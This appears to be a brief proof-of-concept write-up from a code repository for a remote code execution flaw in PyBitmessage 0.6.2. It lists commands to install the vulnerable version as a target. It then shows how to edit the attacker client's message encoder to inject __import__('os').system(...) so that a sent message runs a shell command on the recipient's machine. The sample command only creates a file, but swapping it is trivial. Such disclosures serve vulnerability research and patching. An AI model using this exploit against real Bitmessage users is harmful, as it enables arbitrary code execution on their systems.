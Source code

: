 ### PyBitmessage RCE at 0.6.2

#### environment setting (target side)
```
$ sudo apt-get install python openssl git python-qt4 libopenssl-dev
$ wget https://github.com/Bitmessage/PyBitmessage/archive/v0.6.2.zip
$ unzip PyBitmessage-0.6.2
$ cd PyBitmessage-0.6.2/src && ./bitmessagemain.py
```

#### environment setting (attacker size)
```
- modify ./src/messagetypes/message.py
    - In function ```encode```
    - comment ```super(Message, self).encode()```
    - Add ```self.data = {"": __import__('os').system('touch /tmp/123456')}```

execute ./src/bitmessagemain.py
Write attribute message, press 'shift' button and click send to target address, will trigger RCE
```
